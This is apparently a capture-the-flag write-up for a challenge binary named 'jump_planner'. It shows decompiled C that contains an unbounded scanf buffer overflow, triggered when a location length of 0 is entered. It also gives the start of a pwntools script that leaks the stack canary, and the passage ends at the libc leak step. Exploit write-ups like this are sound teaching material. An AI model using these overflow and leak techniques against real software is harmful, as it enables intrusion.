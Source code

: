 ## Buffer Overflow Bug

The manual jump function is interesting with a lot of weirdness going on.

```c
0000169b  int64_t manual_jump(int32_t* arg1)
000016ab      void* fsbase
000016ab      int64_t rax = *(fsbase + 0x28)
000016ba      int32_t var_48 = 1
000016cb      puts(str: "Manual Jump Mode:")
000016df      printf(format: "Enter Year: ")
000016fa      int32_t var_4c
000016fa      __isoc99_scanf(format: "%d%*c", &var_4c)
00001709      puts(str: "Describe location:")
0000171d      printf(format: "\tEnter number of characters of location (max 30): ")
00001738      __isoc99_scanf(format: "%d%*c", &var_48)
00001743      if (var_48 s> 0x1e) {
00001745          var_48 = 0x1e
00001745      }
00001765      void var_42
00001765      sprintf(s: &var_42, format: "%%%ds", zx.q(var_48), "%%%ds")
00001779      printf(format: "\tEnter location: ")
00001791      void var_38
00001791      __isoc99_scanf(format: &var_42, &var_38, &var_38)
000017ae      printf(format: "Jumping to Year %u at %s\n", zx.q(var_4c), &var_38)
000017ba      *arg1 = var_4c
000017bc      getchar()
000017cf      if (rax == *(fsbase + 0x28)) {
000017d7          return rax - *(fsbase + 0x28)
000017c6      }
000017d1      __stack_chk_fail()
000017d1      noreturn
```

It reads in an `int32_t` for the `year` and an `int32_t` as the number of characters to describe the location you are jumping to. Then builds a format string that is passed into scanf to read in the location description.
So in normal use, a user would a number like `5` and the program will build the string `%5s` which gets used in the scanf which will only allow you to read 5 characters. The vuln here is you can enter `0` as the number of characters and the string `%0s` will be unbounded so there is a buffer overflow here.

# Exploitation

For exploit dev purposes, its easier to test outside of qemu first.

## Leaks

Use the quick jump to get canary and libc leak:

```python
from pwn import *
context.binary = elf = ELF("./jump_planner")
libc = ELF("./libc.so.6")
  
io = elf.process()
  
# Leak Canary
io.sendlineafter(b">> ",b"3")
io.sendlineafter(b": ",b"5")
io.readuntil(b"to Year ")
canary = int(io.readuntil(b" ",drop=True))
print(hex(canary))
# Leak Libc
```